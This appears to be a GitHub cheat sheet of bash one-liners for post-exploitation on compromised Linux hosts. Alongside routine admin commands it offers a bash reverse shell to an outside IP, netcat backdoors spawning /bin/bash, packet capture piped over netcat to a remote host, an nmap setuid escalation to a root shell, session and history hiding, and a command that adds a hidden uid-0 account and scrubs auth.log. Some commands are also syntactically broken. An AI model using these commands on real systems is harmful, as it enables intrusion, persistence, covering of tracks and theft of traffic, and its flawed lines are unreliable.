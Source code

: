 # Bash Commands for Post Exploitation

One liners
-----------

**Resolve a list of hostnames to IP addresses**
```bash
awk < hostnames.txt '{ system("resolveip -s " $1) }'
```

**IIS 6.0 IP Disclosure**
```bash
curl -l -O -H "Host:" "example.com"
```

**Connect to SSL websites**
```bash
openssl s_client -connect example.com:443
```

**Convert base64 to text**
```bash
echo 'base64string' | base64 -d   (Use -D on OSX)
```

**Decode ASCII shellcode**
```bash
echo -e *shellcode hex string*   (may need to use -i to ignore bad chars)
```

**Enumerate DNS of Class C**
```bash
for ip in $(seq 1 254); do; host 10.1.1.$ip | grep "name pointer"; done
```

**SSH to box and hide from "who" and "lastlog"**
```bash
ssh andrew@10.1.1.1 -T /bin/bash
```

**Prevent terminal logging**
```bash
unset HISTFILE
```

**Add immutable attribute to a unix file**
```bash
chattr +i *file*
```

**SSH into host2 through host1**
```bash
ssh -o "proxycommand ssh -W host2 host1" host2
```

**Nmap setuid privesc**
```bash
nmap --script <(echo 'os.execute("/bin/sh")')
nmap --interactive     (for older versions)
```

**Transfer files through SSH**
```bash
ssh test@10.1.1.1 "cat test.tar.gz" > test.tar.gz
```

**Internal port redirect for bypassing services**
```bash 
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 4444
```

**Enable forwarding on the fly**
```bash
sysctl -w net.ipv4.ip_forward=1
```

**Kill with USR1 developer defined signal**
```bash
kill -USR1 <pid>
```

**Pull IP addresses from a file**
```bash
grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
```

**Sniff traffic with tcpdump and send to remote tcp socket**
```bash
tcpdump -w - | nc -v 8.8.8.8 9999
```

**Recursively search for text contained in files within a directory**
```bash
zcat -rf ./* | grep "searchstring"
```

**Recursively search for files with the specified word within them**
*Submitted by cat on Google Fourms*
```bash
ls -a | find | grep -i "string"
```

**Netcat backdoor**
*Does not work with most distro's default version of netcat (most do not define ENABLE_GAPING_SECURITY_HOLE which turns on -e)*
```bash
nc -e /bin/bash *remotecomputer* *port*
OR
nc -e /bin/bash -lp *port*
```

**View CPU Information**
```bash
cat /proc/cpuinfo
```

**Bash reverse shell** (@icleus)

Works on all (recent) distributions where egress filtering is not in place / quite open, use this to reverse connect to your listening host.

```bash
bash -i>& /dev/tcp/123.123.123.123/1234 0>&1 &
```

I find this best works with a socat listener due to the readline support.

```bash
socat readline TCP-LISTEN:1234
```

**One line root useradd**
It creates a new root user. You have to change some parameters.
```bash
USERNAME="name";PASSWD=`perl -e 'print crypt("password", "sa")'`;COMMENT="Comment Here" && sudo useradd -p $PASSWD --system --shell '/bin/bash' --base-dir "/bin" --uid 0 --non-unique --comment $COMMENT $USERNAME && sudo sed -i '/useradd/d;/$USERNAME/d;' /var/log/auth.log
```

Credits
-----------
Credits to @TheAndrewBalls for posting some awsome one liners (the hidden SSH example and the DNS enumeration are both his contributions)

